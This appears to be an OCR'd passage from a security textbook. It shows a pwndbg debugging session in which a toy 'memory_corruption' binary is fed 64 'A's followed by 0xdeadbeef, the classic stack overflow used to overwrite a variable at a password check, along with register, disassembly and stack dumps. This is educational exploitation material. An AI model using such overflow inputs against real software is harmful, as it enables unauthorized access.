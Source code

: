 \begin{lstlisting}
pwndbg> r < <(python -c "print 'A' * 64 + '\xef\xbe\xad\xde'")
Starting program: /home/devneal/Security/REFE/textbook/example_code/memory_corruption < <(python -c "print 'A' * 64 + '\xef\xbe\xad\xde'")

Breakpoint 1, 0x000000000040067d in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[───────────REGISTERS───────────]
*RAX  0x400679 (main) ◂— push   rbp
 RBX  0x0
*RCX  0x0
*RDX  0x7fffffffdf98 —▸ 0x7fffffffe2e1 ◂— 'XDG_VTNR=7'
*RDI  0x1
*RSI  0x7fffffffdf88 —▸ 0x7fffffffe29d ◂— 0x65642f656d6f682f ('/home/de')
*R8   0x400790 (__libc_csu_fini) ◂— ret    
*R9   0x7ffff7de7ab0 (_dl_fini) ◂— push   rbp
*R10  0x846
*R11  0x7ffff7a2d740 (__libc_start_main) ◂— push   r14
 R12  0x400550 (_start) ◂— xor    ebp, ebp
 R13  0x7fffffffdf80 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fffffffdea0 —▸ 0x400720 (__libc_csu_init) ◂— push   r15
*RSP  0x7fffffffdea0 —▸ 0x400720 (__libc_csu_init) ◂— push   r15
*RIP  0x40067d (main+4) ◂— sub    rsp, 0x50
[───────────DISASM───────────]
   0x400679 <main>       push   rbp
   0x40067a <main+1>     mov    rbp, rsp
 ► 0x40067d <main+4>     sub    rsp, 0x50
   0x400681 <main+8>     mov    rax, qword ptr fs:[0x28]
   0x40068a <main+17>    mov    qword ptr [rbp - 8], rax
   0x40068e <main+21>    xor    eax, eax
   0x400690 <main+23>    lea    rax, [rbp - 0x50]
   0x400694 <main+27>    mov    edx, 0x40
   0x400699 <main+32>    mov    esi, 0
   0x40069e <main+37>    mov    rdi, rax
   0x4006a1 <main+40>    call   memset@plt                    <0x400510>
[────────────STACK────────────]
00:0000│ rbp rsp  0x7fffffffdea0 —▸ 0x400720 (__libc_csu_init) ◂— push   r15
01:0008│          0x7fffffffdea8 —▸ 0x7ffff7a2d830 (__libc_start_main+240) ◂— mov    edi, eax
02:0010│          0x7fffffffdeb0 ◂— 0x0
03:0018│          0x7fffffffdeb8 —▸ 0x7fffffffdf88 —▸ 0x7fffffffe29d ◂— 0x65642f656d6f682f ('/home/de')
04:0020│          0x7fffffffdec0 ◂— 0x1f7ffcca0
05:0028│          0x7fffffffdec8 —▸ 0x400679 (main) ◂— push   rbp
06:0030│          0x7fffffffded0 ◂— 0x0
07:0038│          0x7fffffffded8 ◂— 0xe63b86020bb7205
[───────────BACKTRACE───────────]
 ► f 0           40067d main+4
   f 1     7ffff7a2d830 __libc_start_main+240
Breakpoint main
pwndbg> c
Continuing.
Enter the password:

Breakpoint 2, 0x00000000004006c9 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[───────────REGISTERS───────────]
*RAX  0x0
 RBX  0x0
*RCX  0x7ffff7b04290 (__write_nocancel+7) ◂— cmp    rax, -0xfff
*RDX  0x7ffff7dd3780 (_IO_stdfile_1_lock) ◂— 0x0
*RDI  0x400812 ◂— and    eax, 0x73 /* '%s' */
*RSI  0x7fffffffde50 ◂— 0x0
*R8   0x602000 ◂— 0x0
*R9   0xd
*R10  0x7ffff7dd1b78 (main_arena+88) —▸ 0x602410 ◂— 0x0
*R11  0x246
 R12  0x400550 (_start) ◂— xor    ebp, ebp
 R13  0x7fffffffdf80 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fffffffdea0 —▸ 0x400720 (__libc_csu_init) ◂— push   r15
*RSP  0x7fffffffde50 ◂— 0x0
*RIP  0x4006c9 (main+80) ◂— call   0x400530
[───────────DISASM───────────]
   0x4006b3 <main+58>    call   puts@plt                      <0x4004f0>
 

\end{lstlisting}
